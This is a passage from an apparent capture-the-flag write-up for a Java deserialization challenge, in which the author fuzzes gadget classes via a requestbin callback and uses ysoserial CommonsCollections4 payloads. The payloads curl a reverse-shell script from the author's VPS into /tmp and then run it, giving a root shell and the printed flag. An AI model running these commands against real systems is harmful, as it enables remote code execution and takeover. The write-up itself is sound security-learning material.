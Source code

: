 I ran it with a classpaths wordlist, and a free dnsbin as argument to receive callbacks:

```python
python3 fuzz.py wordlists/FasterXML_blacklist.list [REDACTED].d.requestbin.net
```

Soon, checking results in requestbin, saw records showing up:

![](/img/2021_04_24_htb_cyberapocalypse_ctf_writeup/2021-04-22_20-03.png#center)

Based on the received callback output, we know we can use "CommonsCollections4" gadget in &nbsp;`ysoserial`&nbsp; to generate our payload.

Saved a reverse shell payload on a file and hosted the file from VPS, used below command to generate a payload that will make our target server fetch the file and save it on the server:

```sh
ysoserial CommonsCollections4 'bash -c {curl,[REDACTED-MY-VPS-IP]:8888/x.sh,-o,/tmp/pb}' | base64 -w0
```

Sent the generated base64 payload on the "worm" parameter and got the file downloaded in target server. Next, again used another payload to run the saved script to get a reverse shell:

```sh
ysoserial CommonsCollections4 'bash -c {bash,/tmp/pb}' | base64 -w0
```

Got reverse shell as root:

![](/img/2021_04_24_htb_cyberapocalypse_ctf_writeup/20210422202221.png#center)

The flag was located in "/root/flag.txt"

```
CHTB{sw33t_l33t_s3r14lzz_@$#?}
```

&nbsp;

## # emoji voting
